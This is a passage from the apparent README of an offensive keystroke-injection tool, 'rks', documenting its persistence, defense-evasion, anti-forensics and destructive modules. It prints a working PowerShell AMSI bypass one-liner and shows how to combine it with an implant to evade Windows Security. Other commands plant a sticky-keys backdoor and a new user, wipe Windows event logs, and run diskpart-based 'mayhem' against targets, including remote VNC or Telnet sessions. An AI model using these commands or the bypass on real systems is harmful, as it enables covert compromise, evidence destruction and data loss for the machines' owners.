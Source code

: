 ### 0x05 - Persistence

Note: WIP (Work In Progress)

```
$ rks -m persistence -s createuser

$ rks -m persistence -s sethc
```

### 0x06 - Defense Evasion

Note: WIP (Work In Progress)

You can combine [AMSI Bypass](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) with the powershell implant to circumvent **Windows Security** or any security solution that was integrated with AMSI scanner.

```
$ cat amsi_bypass.ps1
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

$ cat amsi_bypass.ps1 implant.ps1 > payload.ps1

$ rks -c "powershell.exe" -m dialogbox

$ rks -c payload.ps1
```

```
$ rks -m antiforensics -s wevutils

$ rks -m antiforensics -s winevent

$ rks -m antiforensics -s eventvwr
```

### 0x07 - Mayhem

Note: WIP (Work In Progress)

```
$ rks -m mayhem -s diskpart -a info

$ rks -m mayhem -s diskpart -a cmd

$ rks -m mayhem -s diskpart -a pwsh
```

### 0x08 - Specify window name.

If you're targeting VNC, Telnet, or other network protocols you can specify the window name. This is useful whenever if you're using `remmina` or another terminal instance with a renamed window.

```
$ rks -c implant.ps1 -w <window_name>
```
